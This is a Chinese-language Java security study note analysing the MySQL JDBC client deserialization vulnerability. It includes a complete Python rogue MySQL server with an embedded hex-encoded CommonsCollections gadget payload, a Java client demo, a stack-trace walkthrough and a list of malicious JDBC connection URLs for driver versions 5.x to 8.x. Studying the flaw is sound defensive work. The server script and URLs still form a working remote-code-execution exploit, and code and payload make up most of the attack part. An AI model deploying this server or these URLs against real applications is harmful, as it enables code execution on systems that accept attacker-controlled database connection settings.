





# Java安全学习—MySQL JDBC反序列化漏洞

Author: H3rmesk1t

Data: 2022.03.21

# JDBC 简介
[Java Database Connectivity](https://en.wikipedia.org/wiki/Java_Database_Connectivity) (JDBC) is an application programming interface (API) for the programming language Java, which defines how a client may access a database. It is a Java-based data access technology used for Java database connectivity. It is part of the Java Standard Edition platform, from Oracle Corporation. It provides methods to query and update data in a database, and is oriented toward relational databases. A JDBC-to-ODBC bridge enables connections to any ODBC-accessible data source in the Java virtual machine (JVM) host environment.

```java
jdbc://driver://host:port/database?配置name1=配置Value1&配置name2=配置Value2
```

# 漏洞原理
`BlackHat Europe 2019`的议题[New Exploit Technique In Java Deserialization Attack](https://www.blackhat.com/eu-19/briefings/schedule/index.html#new-exploit-technique-in-java-deserialization-attack-17321)中提到了, 当攻击者能够控制`JDBC`连接设置项, 那么就可以通过设置其指向恶意`MySQL`服务器进行`ObjectInputStream.readObject`的反序列化攻击从而`RCE`. 

具体来说就是通过`JDBC`连接`MySQL`服务端时, 会有几个内置的`SQL`查询语句要执行, 其中两个查询的结果集在`MySQL`客户端被处理时会调用`ObjectInputStream.readObject`进行反序列化操作. 如果攻击者搭建恶意`MySQL`服务器来控制这两个查询的结果集, 并且攻击者可以控制`JDBC`连接设置项, 那么就能触发`MySQL JDBC`客户端反序列化漏洞.

可被利用的两条查询语句:

```sql
SHOW SESSION STATUS
SHOW COLLATION
```

# 漏洞复现
恶意MySQL服务器搭建可参考: 
 - [MySQL Fake Server](https://github.com/fnmsd/MySQL_Fake_Server).
 - [Rogue Mysql Server](https://github.com/rmb122/rogue_mysql_server).

或者直接利用`Python`自带的库来进行搭建:

```python
# coding=utf-8
import socket
import binascii
import os

greeting_data="4a0000000a352e372e31390008000000463b452623342c2d00fff7080200ff811500000000000000000000032851553e5c23502c51366a006d7973716c5f6e61746976655f70617373776f726400"
response_ok_data="0700000200000002000000"

def receive_data(conn):
    data = conn.recv(1024)
    print("[*] Receiveing the package : {}".format(data))
    return str(data).lower()

def send_data(conn,data):
    print("[*] Sending the package : {}".format(data))
    conn.send(binascii.a2b_hex(data))

def get_payload_content():
    #file文件的内容使用ysoserial生成的 使用规则：java -jar ysoserial [Gadget] [command] > payload
    file= r'payload'
    if os.path.isfile(file):
        with open(file, 'rb') as f:
            payload_content = str(binascii.b2a_hex(f.read()),encoding='utf-8')
        print("open successs")

    else:
        print("open false")
        #calc
        payload_content='aced0005737200116a6176612e7574696c2e48617368536574ba44859596b8b7340300007870770c000000023f40000000000001737200346f72672e6170616368652e636f6d6d6f6e732e636f6c6c656374696f6e732e6b657976616c75652e546965644d6170456e7472798aadd29b39c11fdb0200024c00036b65797400124c6a6176612f6c616e672f4f626a6563743b4c00036d617074000f4c6a6176612f7574696c2f4d61703b7870740003666f6f7372002a6f72672e6170616368652e636f6d6d6f6e732e636f6c6c656374696f6e732e6d61702e4c617a794d61706ee594829e7910940300014c0007666163746f727974002c4c6f72672f6170616368652f636f6d6d6f6e732f636f6c6c656374696f6e732f5472616e73666f726d65723b78707372003a6f72672e6170616368652e636f6d6d6f6e732e636f6c6c656374696f6e732e66756e63746f72732e436861696e65645472616e73666f726d657230c797ec287a97040200015b000d695472616e73666f726d65727374002d5b4c6f72672f6170616368652f636f6d6d6f6e732f636f6c6c656374696f6e732f5472616e73666f726d65723b78707572002d5b4c6f72672e6170616368652e636f6d6d6f6e732e636f6c6c656374696f6e732e5472616e73666f726d65723bbd562af1d83418990200007870000000057372003b6f72672e6170616368652e636f6d6d6f6e732e636f6c6c656374696f6e732e66756e63746f72732e436f6e7374616e745472616e73666f726d6572587690114102b1940200014c000969436f6e7374616e7471007e00037870767200116a6176612e6c616e672e52756e74696d65000000000000000000000078707372003a6f72672e6170616368652e636f6d6d6f6e732e636f6c6c656374696f6e732e66756e63746f72732e496e766f6b65725472616e73666f726d657287e8ff6b7b7cce380200035b000569417267737400135b4c6a6176612f6c616e672f4f626a6563743b4c000b694d6574686f644e616d657400124c6a6176612f6c616e672f537472696e673b5b000b69506172616d54797065737400125b4c6a6176612f6c616e672f436c6173733b7870757200135b4c6a6176612e6c616e672e4f626a6563743b90ce589f1073296c02000078700000000274000a67657452756e74696d65757200125b4c6a6176612e6c616e672e436c6173733bab16d7aecbcd5a990200007870000000007400096765744d6574686f647571007e001b00000002767200106a6176612e6c616e672e537472696e67a0f0a4387a3bb34202000078707671007e001b7371007e00137571007e001800000002707571007e001800000000740006696e766f6b657571007e001b00000002767200106a6176612e6c616e672e4f626a656374000000000000000000000078707671007e00187371007e0013757200135b4c6a6176612e6c616e672e537472696e673badd256e7e91d7b4702000078700000000174000463616c63740004657865637571007e001b0000000171007e00207371007e000f737200116a6176612e6c616e672e496e746567657212e2a0a4f781873802000149000576616c7565787200106a6176612e6c616e672e4e756d62657286ac951d0b94e08b020000787000000001737200116a6176612e7574696c2e486173684d61700507dac1c31660d103000246000a6c6f6164466163746f724900097468726573686f6c6478703f4000000000000077080000001000000000787878'
    return payload_content

# 主要逻辑
def run():

    while 1:
        conn, addr = sk.accept()
        print("Connection come from {}:{}".format(addr[0],addr[1]))

        # 1.先发送第一个 问候报文
        send_data(conn,greeting_data)

        while True:
            # 登录认证过程模拟  1.客户端发送request login报文 2.服务端响应response_ok
            receive_data(conn)
            send_data(conn,response_ok_data)

            #其他过程
            data=receive_data(conn)
            #查询一些配置信息,其中会发送自己的 版本号
            if "session.auto_increment_increment" in data:
                _payload='01000001132e00000203646566000000186175746f5f696e6372656d656e745f696e6372656d656e74000c3f001500000008a0000000002a00000303646566000000146368617261637465725f7365745f636c69656e74000c21000c000000fd00001f00002e00000403646566000000186368617261637465725f7365745f636f6e6e656374696f6e000c21000c000000fd00001f00002b00000503646566000000156368617261637465725f7365745f726573756c7473000c21000c000000fd00001f00002a00000603646566000000146368617261637465725f7365745f736572766572000c210012000000fd00001f0000260000070364656600000010636f6c6c6174696f6e5f736572766572000c210033000000fd00001f000022000008036465660000000c696e69745f636f6e6e656374000c210000000000fd00001f0000290000090364656600000013696e7465726163746976655f74696d656f7574000c3f001500000008a0000000001d00000a03646566000000076c6963656e7365000c210009000000fd00001f00002c00000b03646566000000166c6f7765725f636173655f7461626c655f6e616d6573000c3f001500000008a0000000002800000c03646566000000126d61785f616c6c6f7765645f7061636b6574000c3f001500000008a0000000002700000d03646566000000116e65745f77726974655f74696d656f7574000c3f001500000008a0000000002600000e036465660000001071756572795f63616368655f73697a65000c3f001500000008a0000000002600000f036465660000001071756572795f63616368655f74797065000c210009000000fd00001f00001e000010036465660000000873716c5f6d6f6465000c21009b010000fd00001f000026000011036465660000001073797374656d5f74696d655f7a6f6e65000c21001b000000fd00001f00001f000012036465660000000974696d655f7a6f6e65000c210012000000fd00001f00002b00001303646566000000157472616e73616374696f6e5f69736f6c6174696f6e000c21002d000000fd00001f000022000014036465660000000c776169745f74696d656f7574000c3f001500000008a000000000020100150131047574663804757466380475746638066c6174696e31116c6174696e315f737765646973685f6369000532383830300347504c013107343139343330340236300731303438353736034f4646894f4e4c595f46554c4c5f47524f55505f42592c5354524943545f5452414e535f5441424c45532c4e4f5f5a45524f5f494e5f444154452c4e4f5f5a45524f5f444154452c4552524f525f464f525f4449564953494f4e5f42595f5a45524f2c4e4f5f4155544f5f4352454154455f555345522c4e4f5f454e47494e455f535542535449545554494f4e0cd6d0b9fab1ead7bccab1bce4062b30383a30300f52455045415441424c452d5245414405323838303007000016fe000002000000'
                send_data(conn,_payload)
                data=receive_data(conn)
            elif "show warnings" in data:
                _payload = '01000001031b00000203646566000000054c6576656c000c210015000000fd01001f00001a0000030364656600000004436f6465000c3f000400000003a1000000001d00000403646566000000074d657373616765000c210000060000fd01001f000059000005075761726e696e6704313238374b27404071756572795f63616368655f73697a6527206973206465707265636174656420616e642077696c6c2062652072656d6f76656420696e2061206675747572652072656c656173652e59000006075761726e696e6704313238374b27404071756572795f63616368655f7479706527206973206465707265636174656420616e642077696c6c2062652072656d6f76656420696e2061206675747572652072656c656173652e07000007fe000002000000'
                send_data(conn, _payload)
                data = receive_data(conn)
            if "set names" in data:
                send_data(conn, response_ok_data)
                data = receive_data(conn)
            if "set character_set_results" in data:
                send_data(conn, response_ok_data)
                data = receive_data(conn)
            if "show session status" in data:
                mysql_data = '0100000102'
                mysql_data += '1a000002036465660001630163016301630c3f00ffff0000fc9000000000'
                mysql_data += '1a000003036465660001630163016301630c3f00ffff0000fc9000000000'
                # 获取payload
                payload_content=get_payload_content()
                # 计算payload长度
                payload_length = str(hex(len(payload_content)//2)).replace('0x', '').zfill(4)
                payload_length_hex = payload_length[2:4] + payload_length[0:2]
                # 计算数据包长度
                data_len = str(hex(len(payload_content)//2 + 4)).replace('0x', '').zfill(6)
                data_len_hex = data_len[4:6] + data_len[2:4] + data_len[0:2]
                mysql_data += data_len_hex + '04' + 'fbfc'+ payload_length_hex
                mysql_data += str(payload_content)
                mysql_data += '07000005fe000022000100'
                send_data(conn, mysql_data)
                data = receive_data(conn)
            if "show warnings" in data:
                payload = '01000001031b00000203646566000000054c6576656c000c210015000000fd01001f00001a0000030364656600000004436f6465000c3f000400000003a1000000001d00000403646566000000074d657373616765000c210000060000fd01001f00006d000005044e6f74650431313035625175657279202753484f572053455353494f4e20535441545553272072657772697474656e20746f202773656c6563742069642c6f626a2066726f6d2063657368692e6f626a73272062792061207175657279207265777269746520706c7567696e07000006fe000002000000'
                send_data(conn, payload)
            break


if __name__ == '__main__':
    HOST ='0.0.0.0'
    PORT = 9999

    sk = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    #当socket关闭后，本地端用于该socket的端口号立刻就可以被重用.为了实验的时候不用等待很长时间
    sk.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
    sk.bind((HOST, PORT))
    sk.listen(1)

    print("start fake mysql server listening on {}:{}".format(HOST,PORT))

    run()
```

`JDBC`连接的`Demo`代码:

```java
package org.h3rmesk1t.MySQLJDBC;

import java.sql.Connection;
import java.sql.DriverManager;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/3/23 8:55 上午
 */
public class Demo {

    public static void main(String[] args) throws Exception {

        Class.forName("com.mysql.jdbc.Driver");

        // mysql-connector-java 5.x
        // String jdbcUrl = "jdbc:mysql://127.0.0.1:9999/mysql?characterEncoding=utf8&useSSL=false&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor&autoDeserialize=true";

        // mysql-connector-java 8.x
        String jdbcUrl = "jdbc:mysql://127.0.0.1:9999/mysql?characterEncoding=utf8&useSSL=false&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&autoDeserialize=true";

        String username = "root";
        String password = "20010728";
        Connection connection = DriverManager.getConnection(jdbcUrl, username, password);
    }
}
```

参数说明:
 - `queryInterceptors`: 一个逗号分割的`Class`列表(实现了`com.mysql.cj.interceptors.QueryInterceptor`接口的类), 在`Query`之间进行执行来影响结果.
 - `autoDeserialize`: 自动检测与反序列化存在`BLOB`字段中的对象.

接着利用`ysoserial`生成`CC7`的`payload`, 然后运行恶意`MySQL`服务器进行监听, 可以看到成功执行了命令.

<div align=center></div>

# 漏洞分析
`JDBC`作为一种用于执行`SQL`语句的`Java API`, 其可以为多种关系数据库提供统一访问.

<div align=center></div>

在`Connection connection = DriverManager.getConnection(jdbcUrl, username, password);`处下断点, 不断调试后进入反序列化的触发点`ResultSetImpl#getObject`方法, 堆栈调用信息如下:

```java
getObject:1314, ResultSetImpl (com.mysql.cj.jdbc.result)
resultSetToMap:46, ResultSetUtil (com.mysql.cj.jdbc.util)
populateMapWithSessionStatusValues:87, ServerStatusDiffInterceptor (com.mysql.cj.jdbc.interceptors)
preProcess:105, ServerStatusDiffInterceptor (com.mysql.cj.jdbc.interceptors)
preProcess:76, NoSubInterceptorWrapper (com.mysql.cj)
invokeQueryInterceptorsPre:1137, NativeProtocol (com.mysql.cj.protocol.a)
sendQueryPacket:963, NativeProtocol (com.mysql.cj.protocol.a)
sendQueryString:914, NativeProtocol (com.mysql.cj.protocol.a)
execSQL:1150, NativeSession (com.mysql.cj)
setAutoCommit:2064, ConnectionImpl (com.mysql.cj.jdbc)
handleAutoCommitDefaults:1382, ConnectionImpl (com.mysql.cj.jdbc)
initializePropsFromServer:1327, ConnectionImpl (com.mysql.cj.jdbc)
connectOneTryOnly:966, ConnectionImpl (com.mysql.cj.jdbc)
createNewIO:825, ConnectionImpl (com.mysql.cj.jdbc)
<init>:455, ConnectionImpl (com.mysql.cj.jdbc)
getInstance:240, ConnectionImpl (com.mysql.cj.jdbc)
connect:207, NonRegisteringDriver (com.mysql.cj.jdbc)
getConnection:664, DriverManager (java.sql)
getConnection:247, DriverManager (java.sql)
main:24, Demo (org.h3rmesk1t.MySQLJDBC)
```

<div align=center></div>

在调用的`ResultSetImp#getObject`函数中, `switch`条件语句中的`case BIT`和`case BLOB`均存在反序列化的操作. `BIT`和`BLOB`都是`MySQL`里的一种数据格式, 包括其他`case`样例, 也都是一些数据类型.
 - `BLOB`: `BLOB`为二进制形式的长文本数据, 大小是`0-65535 bytes`.
 - `BIT`: `BIT`数据类型用来存储`bit`值, `BIT(M)`代表可以存储`M`个`bit`, `M`的取值范围为`1`到`64`, 如果手工指定`bit`值, 则可以使用`b'value'`格式, 例如`b'110'`和`b'10000000'`分别代表`6`和`128`.

<div align=center></div>

<div align=center></div>

当判断`MySQL`的类型为`BLOB`且是二进制数据后, 就从`MySQL`服务端中获取对应的字节码数据. 从`MySQL`服务端获取到字节码数据后, 判断`autoDeserialize`是否为`true`接着对`data`内容进行判断, 当`data`满足第一位为`-84`第二位为`-19`时(`Java`的序列化内容的魔术头)执行`data`的反序列化, 最后调用`readObject`触发反序列化漏洞.

沿着堆栈调用信息往回追溯, `JDBC`连接数据库的过程中, `ServerStatusDiffInterceptor`是一个拦截器, 在`JDBC URL`中设定属性`queryInterceptors`为`ServerStatusDiffInterceptor`时, 执行查询语句会调用拦截器的`preProcess`和`postProcess`方法, 进而会调用`ServerStatusDiffInterceptor#populateMapWithSessionStatusValues`方法来执行`SHOW SESSION STATUS`命令去进行查询, 然后对结果进行处理的时候会调用`resultSetToMap`, 进而触发到`ResultSetImp#getObject`.

<div align=center></div>

<div align=center></div>

<div align=center></div>

<div align=center></div>

再往前追溯就是`MySQL`连接的一些基本处理操作.

# 恶意 MySQL 服务器脚本分析
利用`Wireshark`抓包来看看流量是怎样的, 内容`0700000200000002000000`一个简单的`Response OK`数据包.

<div align=center></div>

`4a0000000a352e372e31390008000000463b452623342c2d00fff7080200ff811500000000000000000000032851553e5c23502c51366a006d7973716c5f6e61746976655f70617373776f726400`是一个问候报文, 直接将其`POST`过去即可.

<div align=center></div>

`show session status`属于`request Query`报文, 对于查询数据包的响应包可以分为四种: `ERR Packet`、`OK Packet`、`Protocol::LOCAL_INFILE_Request`、`ProtocolText::Resultset`. 上文的`Response OK`数据包就是`OK packet`, 这一部分主要是用的是结果集这个数据包. 参考[ProtocolText::Resultset](https://dev.mysql.com/doc/internals/en/protocoltext-resultset.html),

一个结果集响应包分为四个数据段, 其中数据段的结构也是相似的, 长度(3字节) 序号(1字节) 协议数据(不同协议数据不同):
 - 数据段1: 说明下面的结果集有多少列;
 - 数据段2: 列的定义;
 - 数据段3: `EOF`包;
 - 数据段4: 行数据(`Payload`).

<div align=center></div>

# Other Payload
## ServerStatusDiffInterceptor 触发
### 8.x

```java
jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_JRE8u20_calc
```

### 6.x
属性名不同, `queryInterceptors`换为`statementInterceptors`.

```java
jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_JRE8u20_calc
```

### >= 5.1.11
包名中没有`cj`.

```java
jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_JRE8u20_calc
```

### 5.x <= 5.1.10
和`>=5.1.11`相同, 但是需要连接后执行查询.

## detectCustomCollations 触发
### 5.1.29 - 5.1.40

```java
jdbc:mysql://127.0.0.1:3306/test?detectCustomCollations=true&autoDeserialize=true&user=yso_JRE8u20_calc
```

### 5.1.28 - 5.1.19

```java
jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&user=yso_JRE8u20_calc
```

# 参考
 - [MySQL JDBC反序列化漏洞](https://www.mi1k7ea.com/2021/04/23/MySQL-JDBC%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E/#%E6%BC%8F%E6%B4%9E%E5%8E%9F%E7%90%86)
 - [MySQL JDBC 客户端反序列化漏洞分析](https://www.anquanke.com/post/id/203086)